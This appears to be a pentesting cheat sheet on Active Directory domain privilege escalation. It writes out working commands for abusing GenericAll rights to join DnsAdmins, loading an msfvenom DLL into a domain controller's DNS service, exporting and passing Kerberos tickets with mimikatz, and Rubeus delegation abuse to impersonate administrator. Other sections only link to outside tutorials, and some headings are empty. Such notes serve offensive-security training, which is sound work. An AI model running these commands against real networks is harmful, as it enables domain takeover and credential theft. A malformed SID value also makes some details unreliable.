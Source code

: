 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
#make a privescl.dll with msfvenom
rundll32.exe .\privesc.dll,DnsPluginInitialize

dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

## DCSync Attack

* [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729) 
* [DC Sync Attacks With Secretsdump.py](https://youtu.be/QfyZQDyeXjQ)

## ZeroLogon (CVE-2020-1472)

* [CrowdStrike's Guide to ZeroLogon](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
* [TheCyberMentor's Video](https://www.youtube.com/watch?v=6xMGsdD-ArI/)

## Unconstrained delegation

* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

```powershell
mimikatz# sekurlsa::tickets
mimikatz# mimikatz::tickets /export
mimikatz# kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```


## Constrained Delegation

```powershell
PS C:\> Rubeus.exe tgtdeleg

# ticket is the base64 ticket we get with `rubeus's tgtdeleg`
Rubeus.exe s4u /ticket:doIFCDC[...]TE9DQUw= /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
```

## Kerberoasting

* [Attack Tutorial: Kerberoasting](https://youtu.be/beRDcvBwTBw)
* [Active Directory - Kerberoasting by Conda](https://youtu.be/-3MxoxdzFNI)
* [Kerberoasting Explained | Kerberos Authentication](https://youtu.be/ajOr4pcx6T0)

## ASPRoasting

* [Harmjoy's Roasting AS-REPs Tutorial](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [CRACKING ACTIVE DIRECTORY PASSWORDS WITH AS-REP ROASTING](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)
